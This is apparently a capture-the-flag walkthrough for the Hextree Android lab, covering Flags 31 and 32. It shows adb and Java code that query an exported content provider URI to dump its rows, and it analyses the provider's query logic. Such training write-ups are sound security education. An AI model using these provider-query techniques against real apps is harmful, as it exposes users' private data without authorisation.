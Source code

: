 The provider defines two URI patterns:
- `content://io.hextree.flag31/flags` → Matches `FLAGS` (code `1`)
- `content://io.hextree.flag31/flag/#` → Matches `FLAG_ID` (code `2`), where `#` is a numeric ID

so if we entered an id the second match will work if it's 31 so the Uri will be like `content://io.hextree.flag31/flag/31`


#### Solution

ADB:
```shell
adb shell content query --uri content://io.hextree.flag31/flag/31                                
```

Output: `Row: 0 _id=2, name=flag31, value=HXT{1111-qqqqqq-xxxxx-zzzz}, visible=1`

Java
```java
Uri uri = Uri.parse("content://io.hextree.flag31/flag/31");  
Cursor cursor = getContentResolver().query(uri, null, null, null, null);  
if (cursor.moveToFirst()) {  
    do {  
        StringBuilder sb = new StringBuilder();  
        for (int i = 0; i < cursor.getColumnCount(); i++) {  
            if (sb.length() > 0) sb.append(", ");  
            sb.append(cursor.getColumnName(i)).append(" = ").append(cursor.getString(i));  
        }  
        Log.d("evil", sb.toString());  
    } while (cursor.moveToNext());  
}
```

### Flag 32
#### Code analysis
```xml
 <provider
    android:name="io.hextree.attacksurface.providers.Flag32Provider"
    android:enabled="true"
    android:exported="true"
    android:authorities="io.hextree.flag32"
/>
```

we can break this provider class into part to make reading it easier
	##### 1. Individual Flag Query (Match == 2)
```java
if (match == 2) {
    // Extract ID from URI (e.g., content://.../flag/32 → ID=32)
    long parseId = ContentUris.parseId(uri);
    Log.i("Flag32", "FLAG_ID: " + parseId);
    
    // Query database for specific flag
    return readableDatabase.query(
        FlagDatabaseHelper.TABLE_FLAG,  // Table name
        strArr,                        // Columns to return
        "name=? AND visible=1",        // Only visible flags with matching name
        new String[]{"flag" + parseId},// Search for "flag32" if ID=32
        null, null, str2               // GroupBy, Having, OrderBy
    );
}
```
